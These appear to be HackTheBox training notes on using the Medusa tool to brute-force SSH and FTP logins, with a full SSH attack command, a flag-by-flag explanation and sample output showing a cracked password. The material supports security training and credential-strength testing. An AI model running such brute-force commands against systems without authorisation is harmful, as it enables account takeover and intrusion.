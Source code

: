 ## Summary
Medusa’s speed, modularity, and flexibility make it a powerful tool for assessing authentication mechanisms. With its support for a variety of protocols and detailed configuration options, it provides security professionals the capability to identify weak credentials effectively while emphasizing the need for robust authentication practices.

---

# Web Services

In the dynamic landscape of cybersecurity, maintaining robust authentication mechanisms is paramount. Services like Secure Shell (SSH) and File Transfer Protocol (FTP), while facilitating secure remote access and file management, rely heavily on username-password combinations, making them vulnerable to brute-force attacks. This module illustrates the practical use of Medusa to exploit SSH and FTP services, emphasizing the importance of fortified authentication practices.

---

## SSH Overview
**SSH** is a cryptographic network protocol used for secure remote login, command execution, and file transfers over an unsecured network. While its encryption makes it secure, weak passwords can expose it to brute-force attacks.

---

## FTP Overview
**FTP** is a standard protocol for transferring files between a client and a server. However, standard FTP transmits data in plaintext, making it susceptible to interception and brute-forcing.

---

## SSH Brute-Forcing with Medusa

### Command
```bash
DJMC@htb[/htb]$ medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```

### Command Breakdown
- `-h <IP>`: Target system's IP address.
- `-n <PORT>`: Port for SSH service (default: 22).
- `-u sshuser`: Username for the attack.
- `-P 2023-200_most_used_passwords.txt`: Password list.
- `-M ssh`: Specifies the SSH module.
- `-t 3`: Runs three parallel login attempts.

### Example Output
```
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
...
ACCOUNT FOUND: [ssh] Host: IP User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```
